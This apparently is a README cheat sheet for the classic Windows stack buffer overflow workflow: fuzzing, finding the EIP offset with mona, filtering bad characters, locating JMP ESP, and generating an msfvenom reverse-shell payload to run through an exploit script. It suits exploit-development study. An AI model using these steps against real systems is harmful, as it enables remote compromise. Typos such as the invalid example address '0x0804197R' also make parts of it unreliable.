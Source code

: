 # Buffer-Overflow-Cheatsheet

In this cheat sheet is noted how we can perform an buffer overflow attack

Install Immunity Debugger this will be needed to perform the bugger overflow exploitation.
can be found on: https://www.immunityinc.com/

After installing Immunity debugger install Mona from: https://github.com/corelan/mona.
Put the .py file in the PyCommands folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands. 
This module will be needed to determine the offset/ find the EIP.

## Fuzzing

After running the program on your Windows machine and have it attached to Immunity Debugger.
Run the fuzzer.py script to identify the point where the application will crash.

## Finding the Offset

After finding the crash point we want to find the Offset to the EIP adress.
To do this we can use the following script to generate a string.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {bytes}`

To determine the EIP we can use the following mona command:

`!mona findesp -distance {used bytes}`

Put the EIP in the exploit.py script and verify that EIP has been overwritten with the character "B" (42 in hexa)


## Badchars

To identify badchars we will use mona.

Run the badchars.py script and put the output in the exploit.py script to run it against the application the identify the badchars.
Use `!mona config -set workingfolder c:\mona\%p` to set the working folder and use `!mona bytearray -b “\x00` and use the compare command to check the values
`!mona compare -f C:\mona\{machine_name}\bytearray.bin -A {ESP ADRESS}`


## JMP ESP

After filtering out the badchars of the application, we will idenfitfy the equivalent for the OPCODE JMP ESP for change the flow of the application to run our shellcode rewriting the stack from its base (EBP). To find the equivalent of the OPCODE JMP ESP we can use the following command: `!mona -r esp -cpb "\x00"`

After finding the EBP adress we need to convert this adress to littl-endian format to use it in our code like this:

`0x0804197R <-> "\x7R\x19\x04\x08"`


## Exploitation

We can now generator our payload to run against our victim machine inserting the badchars we found using mona.
`msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

The `EXITFUNC=thread` prevents the shellcode from crashing the application when executing our shellcode.
`-f c` is for file type which is this case is C. `-e x86/shikata_ga_nai` is for the encoding which we use shikata_ga_nai for. `-b "\x00\x0a"` is voor specifying the badchars.

Now just insert the out in the `exploit.py` script and run it against the application to get a reverse shell. Dont forget to open a listener!
